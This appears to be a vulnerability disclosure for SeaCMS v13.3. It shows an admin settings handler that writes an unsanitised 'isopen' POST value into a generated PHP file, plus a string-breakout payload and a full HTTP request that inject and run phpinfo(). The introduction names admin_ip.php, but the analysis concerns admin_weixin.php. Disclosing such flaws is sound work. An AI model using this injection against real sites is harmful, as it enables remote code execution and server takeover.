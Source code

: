## SeaCMS v13.3 Command Execution Vulnerability

### Introduction

SeaCMS v13.3 has a remote code execution vulnerability. This vulnerability is caused by the fact that although `admin_ip.php` imposes certain restrictions on edited files, an attacker can still bypass these restrictions and write code in a way to splice bypass, allowing an authenticated attacker to exploit the vulnerability to execute arbitrary commands and gain system privileges.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download
![](./public/1.png)

You can see the latest version v13.3
![](./public/2.png)

### Debugging Analysis and Exploitation

The latest version v13.3 of SeaCMS contains a command execution vulnerability.  
The vulnerability is in the `0omeqd\admin_weixin.php` file, where the `isopen` parameter is vulnerable to PHP code concatenation.  
![](./public/3.png)

The full source code of this file is as follows:
```php
<?php
header('Content-Type:text/html;charset=utf-8');
require_once(dirname(__FILE__) . "/config.php");
CheckPurview();
if ($action == "set") {
    $isopen = $_POST['isopen'];
    $title = htmlspecialchars($_POST['title']);
    $url = $_POST['url'];
    $ckmov_url = $_POST['ckmov_url'];
    $follow = htmlspecialchars($_POST['follow']);
    $noc = htmlspecialchars($_POST['noc']);
    $dpic = $_POST['dpic'];
    $help = htmlspecialchars($_POST['help']);
    $topage = $_POST['topage'];
    $sql_num = intval($_POST['sql_num']);
    $dwz = $_POST['dwz'];
    $dwztoken = $_POST['dwztoken'];

    $msg1a = $_POST['msg1a'];
    $msg1b = $_POST['msg1b'];
    $msg2a = $_POST['msg2a'];
    $msg2b = $_POST['msg2b'];
    $msg3a = $_POST['msg3a'];
    $msg3b = $_POST['msg3b'];
    $msg4a = $_POST['msg4a'];
    $msg4b = $_POST['msg4b'];
    $msg5a = $_POST['msg5a'];
    $msg5b = $_POST['msg5b'];

    $open = fopen("../data/admin/weixin.php", "w");
    $str = '<?php  ';

    $str .= 'define("isopen", "';
    $str .= "$isopen";
    $str .= '"); ';
    $str .= 'define("title", "';
    $str .= "$title";
    $str .= '"); ';

    $str .= 'define("url", "';
    $str .= "$url";
    $str .= '"); ';

    $str .= 'define("ckmov_url", "';
    $str .= "$ckmov_url";
    $str .= '"); ';

    $str .= 'define("follow", "';
    $str .= "$follow";
    $str .= '"); ';

    $str .= 'define("noc", "';
    $str .= "$noc";
    $str .= '"); ';

    $str .= 'define("dpic", "';
    $str .= "$dpic";
    $str .= '"); ';

    $str .= 'define("help", "';
    $str .= "$help";
    $str .= '"); ';

    $str .= 'define("topage", "';
    $str .= "$topage";
    $str .= '"); ';

    $str .= 'define("dwz", "';
    $str .= "$dwz";
    $str .= '"); ';

    $str .= 'define("dwztoken", "';
    $str .= "$dwztoken";
    $str .= '"); ';

    $str .= 'define("sql_num", "';
    $str .= "$sql_num";
    $str .= '"); ';

    $str .= 'define("msg1a", "';
    $str .= "$msg1a";
    $str .= '"); ';
    $str .= 'define("msg1b", "';
    $str .= "$msg1b";
    $str .= '"); ';

    $str .= 'define("msg2a", "';
    $str .= "$msg2a";
    $str .= '"); ';
    $str .= 'define("msg2b", "';
    $str .= "$msg2b";
    $str .= '"); ';

    $str .= 'define("msg3a", "';
    $str .= "$msg3a";
    $str .= '"); ';
    $str .= 'define("msg3b", "';
    $str .= "$msg3b";
    $str .= '"); ';

    $str .= 'define("msg4a", "';
    $str .= "$msg4a";
    $str .= '"); ';
    $str .= 'define("msg4b", "';
    $str .= "$msg4b";
    $str .= '"); ';

    $str .= 'define("msg5a", "';
    $str .= "$msg5a";
    $str .= '"); ';
    $str .= 'define("msg5b", "';
    $str .= "$msg5b";
    $str .= '"); ';

    $str .= " ?>";
    fwrite($open, $str);
    fclose($open);
    ShowMsg("Settings saved successfully!", "admin_weixin.php");
    exit;
}
```

In the web page, this is part of the system's WeChat official account settings in the backend. We click "Confirm" and intercept the request using a proxy tool.
![](./public/4.png)

We send the `isopen` parameter and inject PHP code. The payload is as follows (note that the request needs to be URL-encoded):
```r
isopen=n");phpinfo();define("isopen", "n
```
![](./public/5.png)

The complete HTTP request is as follows:
```http
POST /0omeqd/admin_weixin.php?action=set HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 1216
Origin: http://localhost
Connection: close
Referer: http://localhost/0omeqd/admin_weixin.php
Cookie: XDEBUG_SESSION=AFCC; csrftoken=N1K4gile3UYv5N2MXM1ShwrrDTIW4JlfeGUS9a3XNzAxoXvHZ3itSuzzfFW4qdo8; devicePixelRatio=2; Phpstorm-db9a8415=b6480a2a-df8b-4049-b957-2723e5e1ad60; EM_AUTHCOOKIE_Is4qa70oOAoxVSN06kHCjdfvPUF6AvMI=admin%7C1768614317%7Cbce91a6d0efcfa837abca98d5feac895; EM_AUTHCOOKIE_H8GRtC1y0GuSnpOqCfrakVi13LpyC3uP=admin%7C1768664135%7C5c9e0424faa5c1136742a65bf62cfb85; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MTA6InBocCB8IHBocD8iO3M6MzoiYWxsIjtpOjA7czozOiJodGEiO2k6MTt9; PHPSESSID=sc3q3bgfniuuuj7s6et90vh3k8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

isopen=n")%3bphpinfo()%3bdefine("isopen",+"n&url=https%3A%2F%2Fwww.seacms.com&title=%E6%B5%B7%E6%B4%8B%E5%BD%B1%E8%A7%86&ckmov_url=https%3A%2F%2Fwww.seacms.com%2Fvip.php%3Furl%3D+&dpic=https%3A%2F%2Fwww.seacms.com%2Fapi%2Fwx.jpg&follow=%E6%84%9F%E8%B0%A2%E6%82%A8%E7%9A%84%E5%85%B

3%E6%B3%A8%E3%80%82&noc=%E6%9A%82%E6%97%A0%E4%BD%A0%E8%A6%81%E7%9A%84%E5%86%85%E5%AE%B9%E3%80%82&help=%E8%BF%99%E6%98%AF%E5%B8%AE%E5%8A%A9%E4%BF%A1%E6%81%AF%E3%80%82&topage=d&dwz=n&dwztoken=dwztoken&sql_num=15&msg1a=%E5%85%B3%E9%94%AE%E8%AF%8D1&msg1b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B91&msg2a=%E5%85%B3%E9%94%AE%E8%AF%8D2&msg2b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B92%3Ca+href%3D%27http%3A%2F%2Fwww.seacms.com%27%3E%E9%93%BE%E6%8E%A5%E6%B5%8B%E8%AF%95%3C%2Fa%3E%EF%BC%8C%E6%B5%8B%E8%AF%95%E7%BB%93%E6%9D%9F%E3%80%82&msg3a=%E5%85%B3%E9%94%AE%E8%AF%8D3&msg3b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B93&msg4a=%E5%85%B3%E9%94%AE%E8%AF%8D4&msg4b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B94&msg5a=%E5%85%B3%E9%94%AE%E8%AF%8D5&msg5b=%3Ca+href%3D%27https%3A%2F%2Fwww.seacms.com%27%3E%E9%93%BE%E6%8E%A5%3C%2Fa%3E
```

Upon debugging and setting breakpoints, we can see that the `phpinfo();` was successfully injected into the `str` variable.
![](./public/6.png)


After accessing the PHP path, the injected PHP code is successfully executed:
![](./public/7.png)

```r
data/admin/weixin.php
```
![](./public/8.png)

